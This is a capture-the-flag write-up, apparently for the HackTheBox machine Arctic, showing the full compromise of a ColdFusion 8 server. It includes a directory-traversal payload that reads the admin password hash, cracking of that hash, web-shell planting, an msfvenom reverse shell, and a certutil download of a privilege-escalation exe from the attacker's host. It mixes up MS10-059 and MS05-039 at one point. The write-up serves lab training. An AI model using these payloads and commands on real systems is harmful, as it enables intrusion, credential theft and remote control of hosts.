


# Arctic

 


## Summary

* Windows Server 2008 R2 with ColdFusion 8 running.
* Standard reverse shell entry point.
* Privilege escalation discovered by analyzing System Info for lack of patches.  Found an exploit for MS10-059 that launched the reverse sshell.

## Tools needed

* searchsploit
* hash-identifier
* john or hashcat
* msfvenom
* precompiled .exe for privledge escalation

## Detection

As always, start with nmap.

```
# Nmap 7.91 scan initiated Thu Mar  4 11:26:18 2021 as: nmap -sC -sV -oA nmap 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.056s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  4 11:28:40 2021 -- 1 IP address (1 host up) scanned in 142.10 seconds
```

Standard RPC.  Port 8500 is new.  Check http://10.10.10.11:8500

```
# curl -s -L 10.10.10.11:8500                                                                                                            130 ⨯
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>                     

# curl -v -s -L 10.10.10.11:8500/CFIDE/administrator | grep title
        <title>ColdFusion Administrator Login</title>
```

This server is running ColdFusion and based on the rendered HTML in a browser it's version 8.  Check searchsploit for anything useful.

```
└─# searchsploit coldfusion 8
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                            | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                         | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                            | multiple/remote/16985.rb
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution                    | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                                                  | multiple/webapps/45979.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                      | windows/webapps/27755.txt
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                                | multiple/webapps/40346.py
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                   | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scriptin | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting         | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting          | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                            | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                  | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                              | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                                                        | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                                                          | cfm/remote/21548.txt
ColdFusion Scripts Red_Reservations - Database Disclosure                                                      | asp/webapps/7440.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                      | multiple/remote/22867.pl
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Exploit

Not sure where to start, but directory traversals are usually easy.  Check Google:
site:github.com coldfusion 8 directory traversal

https://github.com/goli4th-1/Scripts/blob/master/coldfusion_shell.py

```
└─# curl -s -L 10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en | grep -i password

rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
        onload="changePage();document.forms.loginform.cfadminPassword.focus();">
<form name="loginform" action="/CFIDE/administrator/enter.cfm" method="POST" onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
                                                        <input name="cfadminPassword" type="Password" size="15" maxlength="100" id="admin_login" autocomplete="false" style="width:300px; padding-left:5px;">
                                <input name="requestedURL" type="hidden" value="/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en">
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

That worked.  The hash is there as 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Next is to identify the type of hash and to crack it.

```
# hash-identifier 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 | head -n 20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Most people prefer hashcat, but I'm going with John this time to crack this SHA-1 hash.

```
└─# john --format=Raw-SHA1 hash.log
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
happyday         (?)
1g 0:00:00:00 DONE 2/3 (2021-03-04 15:08) 7.692g/s 11200p/s 11200c/s 11200C/s happy123..harley1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
The hash is cracked rather quickly.  We have credentials now:
admin
happyday

Google:
coldfusion 8 reverse shell
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

We need to generate a shell to serve via a webserver.  As it's a ColdFusion site, it makes sense to use cfexe.cfm, which is there under /usr/share/webshells/ in Kali.  Start a python web server listening on port 80 to serve the cfexec.cfm web shell.

```
# python3.9 -m http.server 80                                                                                                         1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.41 - - [05/Mar/2021 20:18:37] "GET /cfexec.cfm HTTP/1.1" 200 -

```

In ColdFusion, start a scheduled task and set it to load the cfexec.cfm script.

After creating the schedled task and havig it pull the cfm file (as verified by the python server output), call the script:

https://10.10.10.11:8500/CFID\cfexec.cfm

Test by running a command such as systeminfo.

 


```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 §£
System Boot Time:          7/3/2021, 10:14:05 §£
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 267 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.147 MB
Virtual Memory: In Use:    900 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```

We could use this webshell to try and capture the flag of the user, but it would take a long time since ColdFusion is very slow.  Instead, let's try a reverse shell instead of a webshell.  After viewing the Metasploit ruby script that we could call, I noticed Metasploit is just doing a JSP shell.  We can generate that with msfvenom.

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.41 LPORT=443 -f raw > shell.jsp
```

Fire up the Python server again and repeat the above process.  This time we need another listener port when executing so we get the shell.

```
# python3.9 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.41 - - [05/Mar/2021 20:59:50] "GET /shell.jsp HTTP/1.1" 200 -
```

```
# nc -nlvp 443                      
listening on [any] 443 ...

connect to [10.10.14.41] from (UNKNOWN) [10.10.10.11] 49870
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Privilege Escalation

The System Information was already collected above with the cfexec.cfm script, so we'll use that info to feed into windows-exploit-suggester.

```
# git clone https://github.com/Pwnistry/Windows-Exploit-Suggester-python3.git
# python3.9 ../tools/Windows-Exploit-Suggester-python3/windows-exploit-suggester.py --update                                      130 ⨯
[*]
initiating winsploit version 3.4...
[+]
writing to file 2021-03-10-mssb.xlsx
[*]
done

# python3.9 ../tools/Windows-Exploit-Suggester-python3/windows-exploit-suggester.py --database 2021-03-10-mssb.xlsx --systeminfo systeminfo.txt                                                                 
[*]                                                                                                                                                                                                               
initiating winsploit version 3.4...                                                                                                                                                                               
[*]                                                 
database file detected as xlsx based on extension                                                        
[*]                                                 
attempting to read from the systeminfo input file                                                        
[+]                                                 
systeminfo input file read successfully (utf-8)                                                          
[*]                                                 
querying database file for potential vulnerabilities                                                     
[*]                                                 
comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits                                                                                                           
[*]                                                 
there are now 197 remaining vulns                   
[+]                                                 
[E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin                                           
[+]                                                 
windows version identified as 'Windows 2008 R2 64-bit'                                                   
[*]                                                 
[M]                                                 
MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical                                                                                                                                   
[M]                                                 
MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important                                                                                                    
[E]                                                 
MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical                                                                                                                                   
[*]                                                 
  http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC                                                                                              
[*]                                                 
  http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC                                                                           
[*]                                                 
[E]                                                 
MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important                                                                                                              
[M]                                                 
MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important                                                                                                  
[M]                                                 
MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical    
[E]
MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important                                                                                             
[E]                                                 
MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important                                                                                                               
[M]                                                 
MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical                                                                                                                                    
[M]                                                 
MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical      
```

There's a lot of data here.  After some googling for privilege escalation on ColdFusion I honed in on MS10-059.  There are some compiled exploits available.

```
# git clone https://github.com/SecWiki/windows-kernel-exploits.git
# cd Wndows-kernel-exploits/MS05-039
# ls
MS05-039.exe  PnP_Service.c  README.md

```

Now, normally it's never a good idea to run a precompiled .exe from the internet, but in this case it's stored on a temporary Kali VM and is only going to run on the HTB server.  To get the .exe onto host ARCTIC, I found an easy way is to host in on your Python-based web server and run certutil.

```
> certutil -urlcache -f "http://10.0.0.xx/MS10-059.exe" MS10-059.exe
```

After downloading and running the .exe the instructions tell you to specify an IP and port for the reverse shell.  After opening up a listener port and running it again, you get the shell and the user is SYSTEM.


